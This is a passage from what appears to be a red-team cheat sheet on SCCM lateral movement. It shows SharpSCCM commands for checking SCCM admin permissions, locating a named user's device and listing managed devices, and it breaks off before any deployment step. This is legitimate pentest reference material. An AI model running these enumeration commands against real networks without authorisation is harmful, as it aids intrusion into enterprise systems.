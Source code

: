 Admin user enumeration in SCCM{.caption}


![](<./assets/SCCM_Lateral_Movement_Special_Account_Enum.png>)

Special Account Enumeration in SCCM{.caption}




:::


### Applications and scripts deployment

::: tabs

=== SharpSCCM

References:

* [https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)

**Step 1**: Confirm Access permissions

```powershell
SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

---
**Step 2**: Find target device

```powershell
# Search for device of user "Frank.Zapper"
SharpSCCM.exe get primary-users -u Frank.Zapper

# List all active SCCM devices where the SCCM client is installed 
### CAUTION: This could be huge
SharpSCCM.exe get devices -w "Active=1 and Client=1"
```

---